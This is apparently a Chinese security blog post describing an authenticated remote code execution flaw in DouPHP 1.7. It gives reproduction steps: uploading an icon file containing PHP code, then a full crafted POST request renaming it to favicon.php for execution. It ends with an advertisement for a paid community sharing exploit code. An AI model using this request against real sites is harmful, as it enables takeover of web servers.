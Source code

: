 #  【0day】DouPHP 1.7 Release 20220822 远程代码执行漏洞   
 安全之眼SecEye   2024-08-19 17:11  
  
点击上方「蓝字」，关注我们  
  
因为公众号现在只对常读和星标的公众号才能展示大图推送，建议大家进行星标  
。操作方法：点击右上角的【...】，然后点击【设为星标】即可。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76k4fD8m0rkPrAict2lkdiaUHasZshA7Yibv0OpnNzpPKLRbGBC8ib7Fngn81sYBPpOaObsyU2iceZ4XPicQ/640?wx_fmt=png&from=appmsg "")  
  
  
01  
  
# 免责声明  
  
  
**免责声明：**  
文章所涉及内容，仅供安全研究与教学之用，由于传播、利用本文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者及本公众号不为此承担任何责任。  
  
02  
  
# 文章正文  
  
  
# 漏洞描述  
> DouPHP是一个开源的PHP开发框架，广泛应用于快速开发Web应用。其设计目标是简单、快速、灵活、安全。  
  
  
DouPHP 1.7Release20220822版本中存在一个远程代码执行（RCE）漏洞。拥有管理员权限的攻击者可以通过该漏洞在服务器上执行任意命令。漏洞通过上传恶意文件、修改文件扩展名以及通过构造特定的数据包来执行PHP代码。  
# 漏洞复现  
  
1、 登录管理员后台。  
  
2、 上传恶意文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X7eU608QSbc14O9adBibr0JP8ia5aUwxd0uGxnqbVFfkLnDd3WLJ13wzPA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X7145RxCFaZc7KEVSsRFIjaMELSVCT8o2XuMibRJc523jzIIE3ovtuQ7w/640?wx_fmt=png&from=appmsg "")  
  
3、 上传一个包含php代码的ico图标  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X757mSia8oMbx1Mp4wKGdL5Xylzfxgnzbtz7yPoVf4Rvf3rV1Frej7mRg/640?wx_fmt=png&from=appmsg "")  
  
上传成功:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X7BMUmCHVBsxibzBsIGAsPZ3NGDAHty8aNPomngybM9z1M5LaCgRBOs5w/640?wx_fmt=png&from=appmsg "")  
  
4、把上传的favicon.ico文件修改为favicon.php,从而执行php代码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X7yQBr5iaMvScQB6R1oh6bWKrg17DtQXbaVaFuZ5SBWS64UEoL4CpPlbw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X7gO1CTka7uYwZzd5wGW9MEjY3OGg4ECEW0YRu3bQ5eiaib9ItXk1M6SbA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X756WicCibeS8nyM7rrm9lZicX6fVLibWxsicIBejibfYqkGmAaWlnq0A7NWCw/640?wx_fmt=png&from=appmsg "")  
  
抓取数据包，进行修改文件名操作  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X7gHj2SexMd8tEPDqibvQDDFCnKY1dNhQHseTGUUl6b7s9oNNJw84xftA/640?wx_fmt=png&from=appmsg "")  
```
POST /cache/custom\_admin\_path.candel.php HTTP/1.1
Host: douphp:84
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,\*/\*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Origin: http://douphp:84
Connection: close
Referer: http://douphp:84/admin/tool.php?rec=custom\_admin\_path
Cookie: PHPSESSID=bl1s095coldq9mc4a2d9ivrgki
Upgrade-Insecure-Requests: 1
Priority: u=0, i

new\_path=favicon.php&old\_path=favicon.ico&ryjwoi=278144&root\_url=http%3A%2F%2Fdouphp%3A84%2F&submit=%E6%8F%90%E4%BA%A4
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X7ulpblFrV4pxhU2x2ibx6kLMQdRY3gghHwianmQUlH1icpl04tQqiadvHFw/640?wx_fmt=png&from=appmsg "")  
  
访问对应的恶意文件路径:http://{你的url地址}/favicon.php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X75PZRRKNCD5Uz7MlTPVb8neP4TQewMEpU7kKPEXBrB1WZMYFHpaicZhA/640?wx_fmt=png&from=appmsg "")  
  
attachment/2024/08/d773107c-726b-4f24-a0b7-4aff6cf98e48-weAxeCnx.docx  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
**星球介绍**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
高质量漏洞利用工具、漏洞POC/EXP、实战tips分享社区，日常更新0Day/Nday/1day及对应漏洞的批量利用工具，内部POC分享，星球不定时更新内外网攻防渗透技巧、src挖掘技巧等。  
同时，内部的交流群有很多行业老师傅可以为你解答学习上的疑惑  
，实战或者攻防中遇到的技术、非技术难题我们也可以通过自己的途径帮你一起解决。  
  
**【星球服务】**  
  
1，Fofa永久高级会员  
  
2，常态化更新最新的漏洞POC/EXP，未公开、半公开漏洞POC  
  
3，不定时更新SRC挖掘小技巧、SRC挖掘报告  
  
4，安全圈兼职、全职工作内推途径；职业生涯发展路线答疑解惑  
  
5，各种漏洞利用工具，渗透工具、学习资料文档分享  
  
6，加入内部微信群，认识更多的行业朋友（各大安全厂商以及互联网、金融行业甲方安全师傅），遇到任何技术问题都可以进行快速提问、讨论交流；  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76nCng18dyM5JHBugAZhk667q3pyYQYNtOtIXwPd8zuDeTBrTkWRgBiaQibCibH6UTtLYNzr0C80yIHQg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X78E7Uvic93LzziajvaHX6Vcm7HygBepxpQPefUYBJpmCPWnLnqAIwTl1g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X7oyC9n7e6sZgYBdeAaD6q44R4nTia9WEGTDcshY5OWy8WCSEZTlkuo2Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X77hWOuBIwoZ7lrajLWQ6eiaYTxSC3AVjbbutcfcibmyuJcR9Qcrm5xblA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X7SCzSsicQQlIfS5r2UgFJxqYT9cH4D9INNglzwOZTW4CkaEG8uEnAH3Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/FUKJN1fH76mSP53bAh3KOBvX6tibKL9X7mc06OG32Y2tR1q3sBlr36xcLy7yvWbP6nErVMuzw0SfZOY2VDxXFoQ/640?wx_fmt=png&from=appmsg "")  
  
  
点个「在看」，你最好看  
  
